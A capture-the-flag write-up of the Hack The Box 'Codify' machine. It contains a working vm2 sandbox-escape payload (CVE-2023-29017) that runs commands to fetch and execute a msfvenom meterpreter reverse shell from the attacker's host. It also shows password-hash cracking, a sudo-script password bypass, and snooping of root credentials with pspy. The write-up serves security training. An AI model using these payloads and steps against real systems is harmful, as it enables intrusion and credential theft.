<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS:</strong>
      
      <span style="margin-left: 5px;">Linux</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Easy</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>kavigihan</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>November 4, 2023</span>
    </div>
  </div>

</div>


## Recon

### nmap

``` bash
$ nmap -sC -sV 10.10.11.239
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-04 19:46 WET
Nmap scan report for 10.10.11.239
Host is up (0.060s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.13 seconds
```

| Port | Service |
|------|---------|
| 22   | SSH     |
| 80   | HTTP    |
| 3000 | Node.js |


### HTTP

/etc/hosts


Web Page


In the about page, we can see that the code editor we can use on the page, uses the vm2 library


## Foothold

### Exploit

Searching for vm2 exploit I came across [CVE-2023-29017](https://socradar.io/critical-vulnerability-in-vm2-javascript-sandbox-library-exploit-code-available/)

It's a RCE vulnerability, so I tried uploading a file from my machine
Created a test file and started a python http server


Then I ran this code on the code editor

``` text
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('wget http://10.10.14.2:1234/test'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));

```

And I confirmed that it downloaded the file from my machine


So now all I have to do is create a reverse shell file, upload it, and then run it from the code editor

Create the Reverse Shell
``` bash
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=1337 -f elf >reverse.elf
```

Start a python http server again
``` bash
$ python3 -m http.server 1234
```

And now download the reverse shell to the target machine with this code
``` text
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('wget http://10.10.14.2:1234/reverse.elf'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

We can confirm that the file was downloaded


### First Shell

Now to get our first shell, first setup a listener
``` bash
$ msfconsole
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.2
set LPORT 1337
set ExitOnSession false
run
``` 

Run the reverse shell file through the code editor
``` text
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('./reverse.elf'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));

```

And we get our first shell on the machine, as the user svc




## Lateral Movement

### tickets.db

Looking into /var/www/contact, we can find a tickets.db file.

Download the file.


Get Joshua's hashed password from the users table


>$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

### Decrypting the hash

Looking at the hash, and after a quick search, we know that this is a bcrypt hash
We can just use john to decrypt it
``` bash
$ john --format=bcrypt hash.txt 
```


### user.txt flag
Now we can just login as Joshua through ssh
``` bash
$ ssh joshua@10.10.11.239
```

And we get the user flag


## PrivEsc

### mysql-backup.sh

By running sudo -l, we can see that Joshua can run mysql-backup.sh as root


By looking at the mysql-backup.sh code, we see that it checks for the root password on /root/.creds and checks it against our input, if we input the correct root password, it runs the rest of the code, which creates a backup of the database.

If we insert an asterisk (\*) when asked for the root password, it bypasses the password check and runs the entire code.


### pspy
We know, that by looking at the script code, it runs some code using the $DB_PASS variable, which is the root password, but when we run the script, it does not show in the terminal.

For this reason, we can use [pspy](https://github.com/DominicBreuker/pspy) to snoop in the process and see the command in plaintext.

Transfer the pspy script to the target machine, split the terminal and run pspy in one of them.
Then run the mysql-backup.sh script on the other terminal.
Now we can see the command that was ran using the root password.


Now just get the root flag
